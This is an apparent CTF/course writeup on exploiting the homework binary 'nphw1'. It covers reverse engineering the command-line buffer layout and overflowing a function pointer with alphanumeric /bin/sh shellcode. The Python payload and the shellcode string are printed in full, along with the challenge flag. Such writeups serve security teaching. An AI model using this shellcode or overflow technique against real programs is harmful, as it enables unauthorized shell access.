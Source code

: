 ===============
 nphw1 Writeup
===============

:date: 2014-11-12 21:30
:modified: 2014-11-14 02:30
:tags: secprog, ctf, writeup
:category: memo
:slug: nphw1-writeup
:about_author: Bug generator
:email: starbops@gmail.com
:authors: Zespre Schmidt
:summary: Security Programming Homework 2-1

Intelligence Gathering
======================

- There is a vulnerability in piece of code which contains ``strtok()``
- There is a ``call eax`` in the binary
- Because it is an interactive shell program, bad characters are 0x00, 0x0a,
  0x2f (filter out by specific function in the program)

De-complie the binary
=====================

It is hard to debug using gdb. A possible method is to use gdbserver to do
remote debugging. But sadly, I do not have time to learn how to use it. Maybe
next time...

So I turned up using IDA Pro to do the static analysis. By decompilation,
bunch of functions showed up:

.. code-block:: text

    ...
    frame_dummy
    passCmdline
    splitCmdline
    parseArgv
    printEnv
    setEnv
    getResult
    sendResult
    closePipes
    exeCmd
    nextLine
    main
    passPipe
    addPipe
    delPipe
    ...

By doing some observation, I picked up three interesting functions for deeper
inspection: ``main``, ``passCmdline``, ``splitCmdline``, ``exeCmd``.

+===================+=======================================+
| Offset of cmdline | Meaning                               |
+===================+=======================================+
| 0                 | pointer of whole command line         |
+-------------------+---------------------------------------+
| 1 - 10000         | pointer of each word                  |
+-------------------+---------------------------------------+
| 10001             | number of words in whole command line |
+-------------------+---------------------------------------+
| 10002 - 11001     | single command, seperated by '|'      |
+-------------------+---------------------------------------+
| 11002             | argc                                  |
+-------------------+---------------------------------------+
| 11003             | not important                         |
+-------------------+---------------------------------------+
| 11004             | stdout                                |
+-------------------+---------------------------------------+
| 11005             | pointer of function printEnv()        |
+-------------------+---------------------------------------+
| 11006             | pointer of string "printenv"          |
+-------------------+---------------------------------------+
| 11007             | pointer of function setEnv()          |
+-------------------+---------------------------------------+

Since the program uses function pointer to call printEnv(), we can simply put
our shellcode to replace the original printEnv() with the aid of buffer
overflow.

According to the table above, stack overflow will happen when we type more than
1000 words in one single command (commands are seperated by '|'). To overwrite
index 11005 with our shellcode, we need to stuff 1003 words in total.

The 1005th word will overwrite the pointer of the string "printenv", which used
to compared to the very first word. When they are equal, the program will run
into printEnv(). So our job is to ensure they will be the same, otherwise it
won't call our shellcode.

Shellcode
=========

The shellcode for execute ``/bin/sh`` is showed following, grab from the
Internet. See the references at the end of this article for more information.

.. code-block:: text

    PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx

Exploitation
============

The first word should be the same as the last word, and the shellcode should be
 1004th word. That's all!

.. code-block:: python

    payload = 'a ' * 1003
    payload += 'PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx '
    payload += 'a'

Don't forget to append a new line character to fire our payload!

Flag
====

The flag is ``SECPROG{N3tw0rk_Pr0gr4mm1ng_h0m3w0rk_1s_e4s1er}``

References
==========

- `Linux x86 Shellcoding 101 – Objective: Topics introduction and exit(69) shellcode`__
- `x86 alphanumeric shellcodeを書いてみる`__

.. __: http://0xcd80.wordpress.com/2011/04/16/linux-x86-shellcoding-101/
.. __: http://inaz2.hatenablog.com/entry/2014/07/11/004655

